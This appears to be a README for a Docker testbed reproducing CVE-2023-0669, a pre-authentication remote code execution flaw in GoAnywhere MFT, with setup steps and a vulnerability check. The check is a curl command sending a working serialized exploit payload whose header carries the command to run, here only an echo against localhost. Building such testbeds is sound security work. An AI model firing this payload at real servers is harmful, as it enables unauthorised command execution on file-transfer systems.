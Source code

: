 # GoAnywhere MFT CVE-2023-0669

## Description of Vulnerability

GoAnywhere MFT RCE vulnerability CVE-2023-0669.

GoAnywhere MFT suffers from a pre-authentication command injection vulnerability in the License Response Servlet due to
deserializing an arbitrary attacker-controlled object.

All versions prior to 7.1.1 are affected. Update GoAnywhere MFT to a fixed version, i.e. 7.1.2 or later

## Launch Testbed

### Vulnerable setup

1. download image

```sh
docker pull kutzhanov/goanywhere:6.8.6
```

2. run container

```sh
docker run --rm --publish 38000:8000 kutzhanov/goanywhere:6.8.6
```

2. The instance will be available on [http://localhost:38000](http://localhost:38000)
3. Install goanywhere mft, fill license code[www.goanywhere.com/trial](www.goanywhere.com/trial) and create the
   administrator account



### Non-vulnerable setup

Repeat the process with a fixed version:

```sh
docker pull helpsystems/goanywhere-mft:7.1.3
docker run --rm --publish 38000:8000 helpsystems/goanywhere-mft:7.1.3





## Vulnerability Test

You can use the following command to check whether the instance is vulnerable or not

```
curl -s -H 'x-protect: echo goanywhere_vulnerability' --data-binary 'bundle=Jh88_jqGQWSbZmiCc1DErQhwOhCTLkYmA1yXgf86Ha5HF9IfVuQMLOfBS_fjlP7wTTEg2-Jx9nBDyFUKVTroXpFBt7zN1XDX58VKZCxCXlUD45d4laUUnNuzdyvNLT2b_gYKBi2-ny7fc2lOHNgalYV13mQzCTs0EgEUE9AuDUIMcFYx00pv4g4EOgEjeWbAx40rTtRby71AxapyXKy-4XChDHVlPB1AV3njBKGWT6gHdPxT8hb75Ycrpjdk9EQ1HW4WJiz4uaVBu7hXm_Eag15IpIWgojFy4hst8-q9YMms8Omq5lbdLabUHRcJAd6rLu6QrPLepYXQgGfMi_Qmj0qf5vXLfSX20cSBT_IEBlzzBR3lq_hiqrAfmZZCV3Y1HeMPpaMsmzL5zM1VTMX-5Pi5JGKMJ2Al2BZVZUUZQNqrcnueMVl1ZNhGMJ8eSFBCb4WGaNrhfgQ3sWUW3_A_ln_XwLi8z6XCOT5sJmFYZXBC4vYtY4leatX_o__lJHYPuA_TEmuEmEhIccj5Ou2xOvazmw9oXVUbM0vkPsb1UDyyTF0Ee85W0CUUCzb3rouvUDFaOZZLe08Z_Km2LgSq9Wr3fKojx_UevkOkOfwfiPlnJcQTRr45useRtOlHrJpP1iWSLi2vwK8bojMdCWzF13H8MmDjrJBCbcbChsXQkNcAJqkYa3y2SZXkwISRigFVLRnjDbyQLqLAzE0inCSf7NF9abKU5ZW8yMgF6NT802MJCz0gRJD6zLbFZSBYfGlzFJmu9-ZWYVywkwmu3xQrrA_tCRdqvd5zeHd3CgWOzBjOg55_iBNcPZOPYhMXD1ZEpPyG0CQpJfIUiblo4gGV0op-Mb2z5HIuvJ-l_YCxoYJi5RCdtgGoSmIo9wN59S0PeI6LI69EsoquDh7EA9Z7pc6XGk6rrbsJoFcV-lp_73dwmOH1U6pZRcEeMYgrB3n_R0BsoYHTika_iGEmmYv1CgBDfMlmVdQbtefAwh_AcJ9pyNACTwWdXQ0xmto3YYLbizDnmZ--NeiQ_534fTrGfjcIsbLgEnHcpG7Fwng72m7pHVy5LpurnRJXJyFBJW9IUF0vwH_UDZtAfeBK4kMbkuJrCTtQdyCks5SjfQWTArKeNGiKbGWReNhOnUnK8A2sxiYtvqlUi01mfOIfoc-9Lp6wXEBrNzWHH0zPWu4SNQmhR-JwmvFeIErraf83vz0_sRoU7IcSqKEF5zFjFF8n1oWqwBP5a3s_fKgbQ_UA74vmFh5cc_tlpBXS1oG8_EU5GAFI-woAA0Mlgkwmo-fGH1w1wB1LSOzgiT7r4QKDko55Timnwpk_D4RmXesvtu49-xyXcg4sL6NG5ujC6o5kKbTrwi7Vp8hjEx1v6nXeMfUbuWjYicH-ZIE_P_SMevvDUOQm3UZ67MbmdkReIR32TN_88A4J5dKN0QC08HLkYNSjsRp7XyXbSi5dZp3eQ6zkW9KuYU-S-NSBC9pV4arvsZXcwtWRTjweK49JIIgLMayI4y9TOjhg-LiwwzIlTY_t0KuzHSIYSw82LxmOeDhdQUC-sSOeV1G2sR095x3NDmfEfdvduTceU9cD3ofEFtedX5Z77aGFoVhdoG_hOjnYnaoaWYPe7JChYE0TZZfu3V7HF57X0cwoYYPDP6XzSf6kmxEWDoenYsPTmY_Evhqwp3Fhzko8_G-UR2tNH9JjIoouCEd8o8Gy7gnye2_u6wzCBuChv1yEug0miW8nSCQk69oHWeti94h1toBecBt70m8ySDHgL80vs4n5qHK2Mjv_eb3a5UrajOObvfoNMg_K85EudKBrdgW6bEV5KsZhFBDpDnxA7X8CHEHZiK4iDCFUCmSMCXQz7KqkHrcWh8l1ut7IPoxuiRhdI5wuNSw-xVmVwM1kJo5ahlOZcsARCNZ9NcAjcqojMDZjgkPo7lt-5Lrl2gPHg80YkNsfdB8Ao91vcZ6UuJ45ERB1G8V7TwxCMsHU8h8FFet1zb55rcBE-YJ5rvzaXif3OOFiS4MnA0LDszZkFJ4gW2SIMban79bz38yBnEz-au5l2SwkG7tY3DiKobiIz6ZJjOzVj2jAT7MsCpB8XNl8tCMYJHWErFrExXbosh-YvXoU8HCN_XALqBSZJyffqKu0iAYcyxc35QQl55ll-IybJU3Gu4LPGT6HXPlK3Hepmdd1ZhLzQG-adp465TzIDX-0YUK_Px-J0gmoW-kgUiGAVKrHIS4Qh-1E80u7GI_WUZTXSE7sgKUX-2qEUj6reo7Kf_4c_CZrwkA4RtoQrQMCs4Bs7dAft1eAqb9O-SDcW8kShwpUow3nz6PFKkdZ4SjYTNUjANTJT_7Yvzu-nHDPpEyriuZ4zcGKTadRgL2bbv1MwcTzJ1iCGMGXNk-sMiqOpqGdW_tAbfrGAuAjSiK5vCK4tO2xjR9qlMu9mzvC6FWXMlgoDFWbrXDSLUWWpgthJssAzniuX1iuGBlWmC7MzOCLQYyHKTIGDysqW4BgHQabqeXtqPoCLUCcCY8tlaACSFFe9ZQcQXgTHwClL5_TI2-9Cn5wIz28o-krld22hZ5KUWvXcW_278n6TxUJZPArM-KweuxdkzFYHjg1i8eZygMFz17MA9rUSTJzG7qvyXR_OIvI9EcGVP91noBQ2pN9zqFq7o81DRUmrNbNL1I4GPwK4kkLJVOJ1o6Hgw-zXmjeMveQII-aRzh-O2zZ9dpBJ8Yne7nWgeq1XAxW3A0lkqKr5hRbJD8najEI1xWvUEBHbPLD3oy4FGrs2Pegj7JlsGIwcmsQ8S_3bcp9ycdpNWXR0qgku3ltIZdFfW3Tnm-NFbfvkIRqmk8CaYsX2NlXGCJBLSt5HHioXDyUn1dRKvTpLx8aw41HqqGAACACvSWo0VLi4uXvxUZTgeA7q6BzH7KxptrTX62rBrU6R2ul5cgjTEYnakqcNUyJDjbxHBw1wY3k75erwfFj_pc6pE0PlB9zqIROk0yOiy2OWpg4KCAjryY1U0eOjnZVsoWjEuBT7Uvu0_9h04yZqToxRfu0WIODBLGJZ0lpx2bXtcaZPRFNwOFAeGHNpSY-ZO48bQR2Eo8kbB62w5DU6pKlFzCzK-bOzVvYUYDkYoQUSclOkW96M0hQ5DvJggB14AuXv0n4jsC1j_z4Yg1oeVnSbDA1PuGcAq8TovQX1KzpSHORoQFEhcclGxhc5-6kPt_cqImHd2C2UpYhVGEff3d2ShRzOETbELCR9w5OLY5EB4AxIOB9K4UUB-iqusjEmTYogjUUPhrHz1Dl88DD-W_QIR1fSpKDlCKWZXLWueZKXEFTKTIrWltCqbANJMPx5ww4Yo7jau6jZOPZWaZg_rApAJ4GhISBNRNUaRMUwRuKHrIaXBamJfkZXZNBJaUyv5uFXkCqkKlotr3JpOe8kBeFq_h-mmgM5G2pCK1LvnpIzXqMe1vPuR7om0ar4hRpV8aBlmhG9M7N2NQS50c-d96qKQQNDT_RgKslJfEPl4LuBie9IFlZ9qbpyq25XadMoDvDjuddAGb2jouTI8t1wXoK_fGMzUlPa7_Fq1yJqaeLF4gvoqZcEdocc0BZuM_8YqQGPhPRtxJ2wfnJ-9rdz58RNX8KoUnPEo7Y_GU5MqcmIsIqWgLkLHbFTytO9Xf2v90LKZoJy6vxfuD0C3ocGZ4syFrus4zZ0ydMU8L0b5A4Z9c4U7LE4kn79ujOBeseZDE1nAr2RL1c9ReAjJ6CLqpPYTihhLHglog64HMcxTGj1_fEnrNB53mzD0cw1UB5_kRE-Yr_JY0PRvYYGVfKfaXeklUVn3Rb-npVABFVQ6XrCN1dUFOhy4rUe3mZ3kyAXvjpXiRrkRnbKAk1c2ynLrIDetbNoQQGdIouuBEDX9NJIE9zKAttSQBpC5Xkoeu68oQcTU3IW_N848fuGIUsUl4oqO1wjNuG4TTBCCA82gu269_LCg5jB9JEa-DlhPzRwoGhJ4muc1ThgsINoLcevNu5iwP-ebUQfolW6ZdR3i12Eh9bZi3yiE7Sieb-dXx_qm5IrdlY0SZWKNC8OqlxVUzLaseMBE3kPrT-Dz6ClJXewCEU1vGYzPvKggCgg5clwEwsjGsOq7XYLGRJ9f5pMKZkcfO6-v4FpCk3fjHh0NDDZ8EE3i74a5fh1wVKsR2EJPpl6bEpWhMUDPtcavuTP7xbJC1sFDuLzoSE6qVXLbZFWPS6VMCEzkJ1-FxVsVE_WE4v72iygfLGZaOFgzyVOSEZAm8GThgHsxrKTb2_v5JcWLuock1Z6uva8P13htuNHACPZ3yhkXbuJ2b-6ucy2ZLurigtEDsNsmXsybmWdpS4vA6gnPDr5iSxVXz4BLyW0ShEbKLls_eJ_pH-y1b9Hw0KVVbcE05-bckumz7H-LwhcGVBsi2SKpoGSugH6gbX_fqrraMB0aC-0v6JIZ8WUNa7ElaMfJsE6XstjaE7KjXFHuhyQKeHgWKjm1oV8yLW7vRuqhs5RfWV3E09y2yASv_DY1WxMotFAqOHhz-zt3CiZCXQkPsjly3uHDKLrIjMYrHFvPPmQ8jD6AWiupBSVUi9yFnSFeZq8Ws3-Ki8JQEuWtMhCOsF5nBIb9NUifxO6sK2hUlbBVnhGV1PAz1FZ0tMHhFg7AVeviqUlePVASRtUQ-HmW9qPqH1UXiwysQAprepW6tHuExtYchRcla7ApOqUcQl1oCdQl6tsvn3ewlMTHvAyhUMjeap3yHlzUro-kFf-D285ircmCHRvoXgySqqZjO_8hkEcgBEWSp5Yn8xNZmw9PEthJzvAL2F6UfY58G_WrSIj5B-6GgHdgDVSzLiYSh_lrMFEd4QBtVYLz9KWlY5jjXxmN50RjWGhf2qx0iGrFC2ZnAwN6RxrB07Gl-nI2rAYVWoa_oIz_3s2rI7ll6fvzmdwKrSPNdcnG3MYVvTo8gAHrvhgFUje71_EgabRgOQv6XFCX6Vhsh9crycXjtISPU8ZWnf9tSQh-nUBplB2Go2WSmmLk1Rhu0deMsChn6dI7OQ-ed-36C_on1CY5bSuEkpJxxsNrcZTdmRG3KPlwHVcZ1kfFKlSTnFPjoOq1VLgLGuaOJFFiTerU2tbfj8rbgZbYOeZZToik7OirRjX_oTyKwHGQq5Y0d_W1Whwr8i5xK-V4HsdDOAOPv7NzL8-yxnL73kWP2357B_8yvUxHKjZ_ynyr--_ueBVZbOwnt4oBpbtsLh7_A6vo0MdBs2HpRRq8USpxlgN_s_2DNFRrxejgphOPDeHT-_mh7ey3lSZNMt3NU2M7lPWzWsffu5R5PXY9BxJT0PsUAgJS3i-sB5D4Fg7e4WiF83UroEYaz9mM0B-7VQ7hkqBgPEiDH2rZpUyhsG51TlYSbzb46g41vXdFpygqntOlEgBYkVbLwN3fIM9s2RL4908QD8o-ePuO-CnFL5KU5Yh7IcBx8a2FovJf07J7IoShuB2grZ7Uq8hwa5OJjZ0yN1pz1KsdT_OKONiiDiWvf67QRkrogsxA2PbFC4Qhr1ZwOnEO8fhZTFx_fdt5_z7RkjfObiDBNqGGY5iBnjxinzh67mODT_vohU7L3gPCkVnqcU2zUbiBsT-Xu0HGyQOPpBp5wS2QHln6GdmTkmARnSa4Mc1CU0x4YzmAoTU4v8xLCtucHHFHrYMB_MFJg_2rM_XxJVKjnU2ej7BFSbnyc_1XE12z9ca6dYywmwtTFtHSpJf-70SBU_nebcnTcUXMp2JTWdRUgGScybrwM4wGSYUq7THJqm297dQ9fJ9GjnWLOK3JQ7K2GjVWWmXKrlYlwKgx_3XDUUYErlZAw13_iQXLMZOUteWthVndxp9STpcQ' http://127.0.0.1:38000/goanywhere/lic/accept
```


A vulnerable instance will reply with the following message:

```
goanywhere_vulnerability
```



while a safe instance will reply with status code 400 and the following body:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html>
<html xmlns="http://www.w3.org/1999/xhtml" lang="en"><head id="j_id_4"><link type="text/css" rel="stylesheet" href="/goanywhere/javax.faces.resource/theme.css.xhtml?ln=primefaces-aristo" />
......
```
